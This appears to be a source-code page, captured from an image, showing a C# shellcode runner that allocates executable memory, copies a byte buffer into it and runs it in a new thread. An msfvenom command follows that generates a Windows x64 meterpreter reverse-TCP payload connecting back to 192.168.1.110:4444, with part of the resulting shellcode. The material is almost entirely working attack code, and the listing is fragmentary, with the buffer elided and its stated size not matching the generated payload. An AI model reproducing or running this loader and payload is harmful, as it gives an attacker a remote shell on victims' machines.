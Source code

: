 ```c#

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[630] {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
  ...
  0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

- buf
```bash 
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.110 LPORT=4444 EXITFUNC=thread -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Final size of csharp file: 2628 bytes
byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,
0x51,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,
0x52,0x20,0x56,0x4d,0x31,0xc9,0x48,0x0f,0xb7,0x4a,0x4a,0x48,
0x8b,0x72,0x50,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x66,
0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88,
0x48,0x01,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,0x0d,0xac,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,
0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x11,0x5c,
0xc0,0xa8,0x01,0x6e,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,
0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x6a,0x0a,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,
0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,
```